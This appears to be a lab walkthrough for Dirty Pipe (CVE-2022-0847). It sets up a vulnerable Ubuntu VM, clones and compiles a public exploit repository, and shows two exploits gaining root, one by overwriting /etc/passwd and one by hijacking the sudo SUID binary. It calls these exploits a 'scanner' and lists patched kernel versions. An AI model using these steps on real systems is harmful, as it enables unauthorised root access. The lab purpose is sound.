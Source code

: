 # CVE-2022-0847-DirtyPipe-Exploits Scan

# Step-1: Prepare Target System:
⦁	Download “Exploit-Target-Ubuntu-20-4.ova”  
⦁	Open VMware workstation and go to “File>Open”:  
 
⦁	Browse and select “Exploit-Target-Ubuntu-20-4.ova” file: 
  
⦁	Set a name for VM and select the location to store it and click on Import:
 
⦁	Importing OVA:
 
⦁	Finally, the VM is ready to play and start it:
 
⦁	Now login with User: exploit password: exploit
 
⦁	Now the system is ready:
 
# Step-2: Install dependency and Check kernel version for vulnerability:
⦁	Start the VM and login with User: exploit Password: exploit
⦁	Open Terminal and check the kernel and OS version:
```
uname -r
5.11.0-27-generic

cat /etc/os-release 

NAME="Ubuntu"
VERSION="20.04.3 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.3 LTS"
```
⦁	You will need to have GCC and Git installed:
```sudo apt-get install gcc git -y```
#  Step-3: Download and Compile CVE-2022-0847-DirtyPipe-Exploits Scanner:
⦁	After successfully install git, gcc now clone the exploits scanner from GitHub:
 git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
⦁	Check is it download or not:
```
ls -la

drwxrwxr-x  3 exploit exploit 4096 Mar 23 01:49 CVE-2022-0847-DirtyPipe-Exploits
```
⦁	Change the directory:
``
cd CVE-2022-0847-DirtyPipe-Exploits
``
⦁	After installing GCC, you can run the 'compile.sh" script as follows:
```
chmod +x compile.sh
./compile.sh
```
# Step-4: Run CVE-2022-0847-DirtyPipe-Exploits Scanner:
⦁	After successfully complied you’re able to run exploit-1:
```
./exploit-1
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

whoami
root
```
⦁	To exit from this console type exit and press enter twice:
exit
```
$
⦁	Run exploit-2:
./exploit-2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

whoami
root

exit
```

## Affected versions
Linux kernel versions newer than 5.8 are affected.
So far the vulnerability has been patched in the following Linux kernel versions:
**5.16.11
5.15.25
5.10.102**
You can learn more about the vulnerability here: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847
